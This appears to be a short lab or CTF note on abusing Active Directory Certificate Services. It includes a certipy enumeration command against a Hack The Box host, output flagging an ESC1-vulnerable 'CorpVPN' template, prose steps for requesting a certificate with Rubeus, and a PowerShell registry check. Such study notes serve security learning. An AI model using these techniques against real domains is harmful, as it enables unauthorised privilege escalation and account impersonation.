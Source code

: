 # ADCS

AD CS is a Microsoft server role solution for public key infrastructure (PKI) that provides myriad services within an AD environment.
AD CS can provide certificate-based user authentication – which can be an extremely useful tool for managing an AD environment – but it can also be an extremely useful tool for compromising one. 

### Enumeration

```certipy``` enumerates vulnerabilities in certificate templates

```certipy find -u 'username@authority.htb' -p 'password' -dc-ip 10.10.11.222```

```
{
  "Certificate Authorities": {
    "0": {
      "CA Name": "AUTHORITY-CA",
      "DNS Name": "authority.authority.htb",
      "Certificate Subject": "CN=AUTHORITY-CA, DC=authority, DC=htb",
      "Permissions": {
          "512": [
            "AUTHORITY.HTB\\Authenticated Users"
          ]
        }
      }
    }
  },
  "Certificate Templates": {
    "1": {
      "Template Name": "CorpVPN",
      "Display Name": "Corp VPN",
      "Certificate Authorities": [
        "AUTHORITY-CA"
      ],
      "Enabled": true,
      "Client Authentication": true,
      "Enrollee Supplies Subject": true,
      "Certificate Name Flag": [
        "EnrolleeSuppliesSubject"
      ],
      "Extended Key Usage": [
        "Client Authentication",
        "KDC Authentication"
      ],
      "Requires Manager Approval": false,
      "Authorized Signatures Required": 0,
      "Permissions": {
        "Enrollment Permissions": {
          "Enrollment Rights": [
            "AUTHORITY.HTB\\Domain Computers",
          ]
        }
        }
      },
      "[!] Vulnerabilities": {
        "ESC1": "'AUTHORITY.HTB\\\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication"
      }
    },
  }
```

for example, the template 'CorpVPN' is vulnerable ESC1, where an enrolle from the Computers security group can supply a subject for client authentication.

### Exploitation
attackers can then use a tool such as ```Rubeus``` to:

1. request an authentication token from Kerberos (available to any user).
2. Use Kerberos authentication to request a certificate using the vulnerable template

if the regkey ```HKLM:\SYSTEM\CurrentControlSet\Services\Kdc\StrongCertificateBindingEnforcement``` is set to 2, attackers will have to supply the szOID_NTDS_CA_SECURITY_EXT value when making a certificate request.

```If (Test-Path "HKLM:\SYSTEM\CurrentControlSet\Services\Kdc\StrongCertificateBindingEnforcement") {(Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Kdc").StrongCertificateBindingEnforcement}```
